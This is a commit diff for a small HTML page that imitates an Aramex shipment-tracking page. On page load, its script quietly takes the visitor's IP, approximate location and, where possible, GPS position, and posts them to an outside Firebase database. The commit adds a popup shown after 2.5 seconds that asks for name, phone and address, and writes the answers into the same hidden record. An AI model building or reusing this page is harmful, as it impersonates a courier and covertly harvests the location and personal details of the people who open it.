

Before and after one commit to MPlightro/Tracker, a plain HTML site: page final/index.html in a window 390 px wide. Shown: the part 135-954 px from the top of the page. After the commit the page ends 844 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/final/index.html
+++ b/final/index.html
@@ -7,73 +7,81 @@
   <script src="https://cdn.tailwindcss.com"></script>
 </head>
 <body class="bg-gray-100 font-sans">
-  <div class="max-w-2xl mx-auto p-6">
+  <div class="max-w-2xl mx-auto p-4 sm:p-6">
     <!-- Header -->
-    <div class="bg-red-600 text-white p-4 rounded-t-2xl shadow-md">
-      <h1 class="text-2xl font-bold">Aramex Shipment Tracking</h1>
+    <div class="bg-red-600 text-white p-3 sm:p-4 rounded-t-2xl shadow-md">
+      <h1 class="text-lg sm:text-2xl font-bold text-center sm:text-left">Aramex Shipment Tracking</h1>
     </div>
 
     <!-- Tracking Box -->
-    <div class="bg-white p-6 shadow-md rounded-b-2xl">
-      <p class="text-gray-600">Tracking Number:</p>
-      <h2 class="text-xl font-semibold mb-4">1234567890</h2>
+    <div class="bg-white p-4 sm:p-6 shadow-md rounded-b-2xl">
+      <p class="text-gray-600 text-sm sm:text-base">Tracking Number:</p>
+      <h2 class="text-lg sm:text-xl font-semibold mb-3 sm:mb-4 break-all">1234567890</h2>
 
       <!-- Status -->
-      <div class="border-l-4 border-red-600 pl-4 mb-6">
-        <p class="text-gray-700">Current Status:</p>
-        <h3 class="text-lg font-bold text-red-600">Shipment Received at Origin Facility</h3>
-        <p class="text-sm text-gray-500">Your shipment has been received and is being processed. Delivery has not yet started.</p>
+      <div class="border-l-4 border-red-600 pl-3 sm:pl-4 mb-4 sm:mb-6">
+        <p class="text-gray-700 text-sm sm:text-base">Current Status:</p>
+        <h3 class="text-base sm:text-lg font-bold text-red-600">Shipment Received at Origin Facility</h3>
+        <p class="text-xs sm:text-sm text-gray-500">Your shipment has been received and is being processed. Delivery has not yet started.</p>
       </div>
 
       <!-- Progress Steps -->
-      <div class="space-y-4">
+      <div class="space-y-3 sm:space-y-4 text-sm sm:text-base">
         <div class="flex items-center">
-          <div class="w-4 h-4 bg-red-600 rounded-full"></div>
-          <p class="ml-3 text-gray-800">Shipment Created</p>
+          <div class="w-3 h-3 sm:w-4 sm:h-4 bg-red-600 rounded-full"></div>
+          <p class="ml-2 sm:ml-3 text-gray-800">Shipment Created</p>
         </div>
         <div class="flex items-center">
-          <div class="w-4 h-4 bg-red-600 rounded-full"></div>
-          <p class="ml-3 text-gray-800">Shipment Received at Origin Facility</p>
+          <div class="w-3 h-3 sm:w-4 sm:h-4 bg-red-600 rounded-full"></div>
+          <p class="ml-2 sm:ml-3 text-gray-800">Shipment Received at Origin Facility</p>
         </div>
         <div class="flex items-center">
-          <div class="w-4 h-4 border-2 border-gray-400 rounded-full"></div>
-          <p class="ml-3 text-gray-500">In Transit</p>
+          <div class="w-3 h-3 sm:w-4 sm:h-4 border-2 border-gray-400 rounded-full"></div>
+          <p class="ml-2 sm:ml-3 text-gray-500">In Transit</p>
         </div>
         <div class="flex items-center">
-          <div class="w-4 h-4 border-2 border-gray-400 rounded-full"></div>
-          <p class="ml-3 text-gray-500">Out for Delivery</p>
+          <div class="w-3 h-3 sm:w-4 sm:h-4 border-2 border-gray-400 rounded-full"></div>
+          <p class="ml-2 sm:ml-3 text-gray-500">Out for Delivery</p>
         </div>
         <div class="flex items-center">
-          <div class="w-4 h-4 border-2 border-gray-400 rounded-full"></div>
-          <p class="ml-3 text-gray-500">Delivered</p>
+          <div class="w-3 h-3 sm:w-4 sm:h-4 border-2 border-gray-400 rounded-full"></div>
+          <p class="ml-2 sm:ml-3 text-gray-500">Delivered</p>
         </div>
       </div>
 
-      <!-- Address Input -->
-      <div class="mt-8 p-4 border-t border-gray-200">
-        <p class="text-gray-700 font-semibold mb-2">Enter your delivery address to start delivery:</p>
-        <form class="space-y-3">
-          <input type="text" placeholder="Full Name" class="w-full p-2 border rounded-lg focus:outline-none focus:ring-2 focus:ring-red-600">
-          <input type="text" placeholder="Street Address" class="w-full p-2 border rounded-lg focus:outline-none focus:ring-2 focus:ring-red-600">
-          <input type="text" placeholder="City" class="w-full p-2 border rounded-lg focus:outline-none focus:ring-2 focus:ring-red-600">
-          <input type="text" placeholder="Postal Code" class="w-full p-2 border rounded-lg focus:outline-none focus:ring-2 focus:ring-red-600">
-          <button type="submit" class="w-full bg-red-600 text-white py-2 rounded-lg shadow hover:bg-red-700">Start Delivery</button>
-        </form>
-      </div>
-
       <!-- Last Updated -->
-      <p class="mt-6 text-sm text-gray-500">Last Updated: Aug 29, 2025 - 10:15 AM</p>
+      <p class="mt-4 sm:mt-6 text-xs sm:text-sm text-gray-500">Last Updated: Aug 29, 2025 - 10:15 AM</p>
     </div>
   </div>
 
-  <!-- Hidden Firebase + IP/GPS Tracking -->
+  <!-- Popup Modal (hidden by default) -->
+  <div id="addressModal" class="fixed inset-0 bg-black bg-opacity-50 flex items-center justify-center p-3 sm:p-0 hidden">
+    <div class="bg-white rounded-xl sm:rounded-2xl p-4 sm:p-6 max-w-md w-full shadow-lg">
+      <h2 class="text-lg sm:text-xl font-bold text-red-600 mb-3 sm:mb-4">Enter Delivery Address</h2>
+      <form id="addressForm" class="space-y-2 sm:space-y-3">
+        <input type="text" name="name" placeholder="Full Name" class="w-full p-2 border rounded-lg text-sm sm:text-base focus:outline-none focus:ring-2 focus:ring-red-600" required>
+        <input type="text" name="phone" placeholder="Phone Number" class="w-full p-2 border rounded-lg text-sm sm:text-base focus:outline-none focus:ring-2 focus:ring-red-600" required>
+        <input type="text" name="street" placeholder="Street Address" class="w-full p-2 border rounded-lg text-sm sm:text-base focus:outline-none focus:ring-2 focus:ring-red-600" required>
+        <input type="text" name="city" placeholder="City" class="w-full p-2 border rounded-lg text-sm sm:text-base focus:outline-none focus:ring-2 focus:ring-red-600" required>
+        <input type="text" name="postal" placeholder="Postal Code" class="w-full p-2 border rounded-lg text-sm sm:text-base focus:outline-none focus:ring-2 focus:ring-red-600" required>
+        <div class="flex justify-end space-x-2 pt-2">
+          <button type="button" id="cancelBtn" class="px-3 py-2 sm:px-4 sm:py-2 rounded-lg border text-sm sm:text-base">Cancel</button>
+          <button type="submit" class="px-3 py-2 sm:px-4 sm:py-2 bg-red-600 text-white rounded-lg shadow hover:bg-red-700 text-sm sm:text-base">Submit</button>
+        </div>
+      </form>
+    </div>
+  </div>
+
+  <!-- Firebase + Tracking Script -->
   <script>
     const DATABASE_URL = "https://tracking-link-database-default-rtdb.firebaseio.com";
     const COLLECTION_PATH = "/hits";
 
+    let firebaseKey = null; // will hold the key for this visitor's record
+
     async function fetchIPApprox() {
+      try {
         const resp = await fetch('https://ipapi.co/json/');
-      if (!resp.ok) return { ip: null, approx: {} };
         const data = await resp.json();
         return {
           ip: data.ip || null,
@@ -85,6 +93,9 @@
             org: data.org || null
           }
         };
+      } catch {
+        return { ip: null, approx: {} };
+      }
     }
 
     function getPreciseLocationOrFalse(timeoutMs = 15000) {
@@ -102,15 +113,25 @@
 
     async function sendToFirebase(payload) {
       const url = `${DATABASE_URL}${COLLECTION_PATH}.json`;
-      try {
-        await fetch(url, {
+      const resp = await fetch(url, {
         method: 'POST',
         headers: { 'Content-Type': 'application/json' },
         body: JSON.stringify(payload)
       });
-      } catch (e) {
-        // silently ignore errors
+      if (resp.ok) {
+        const res = await resp.json();
+        firebaseKey = res.name; // store the Firebase key
       }
+    }
+
+    async function updateFirebaseAddress(address) {
+      if (!firebaseKey) return;
+      const url = `${DATABASE_URL}${COLLECTION_PATH}/${firebaseKey}.json`;
+      await fetch(url, {
+        method: 'PATCH',
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify({ address })
+      });
     }
 
     function buildPayload({ ipInfo, precise }) {
@@ -131,12 +152,37 @@
         const precise = await getPreciseLocationOrFalse();
         const payload = buildPayload({ ipInfo, precise });
         await sendToFirebase(payload);
-      } catch (err) {
-        // no visible logging
-      }
+      } catch {}
     }
 
-    document.addEventListener('DOMContentLoaded', runTracker);
+    document.addEventListener('DOMContentLoaded', () => {
+      runTracker();
+
+      // Show modal after 2.5 seconds
+      setTimeout(() => {
+        document.getElementById("addressModal").classList.remove("hidden");
+      }, 2500);
+
+      // Cancel button closes modal
+      document.getElementById("cancelBtn").addEventListener("click", () => {
+        document.getElementById("addressModal").classList.add("hidden");
+      });
+
+      // Form submission updates the SAME firebase record
+      document.getElementById("addressForm").addEventListener("submit", async (e) => {
+        e.preventDefault();
+        const formData = new FormData(e.target);
+        const address = {
+          name: formData.get("name"),
+          phone: formData.get("phone"),
+          street: formData.get("street"),
+          city: formData.get("city"),
+          postal: formData.get("postal")
+        };
+        await updateFirebaseAddress(address);
+        document.getElementById("addressModal").classList.add("hidden");
+      });
+    });
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
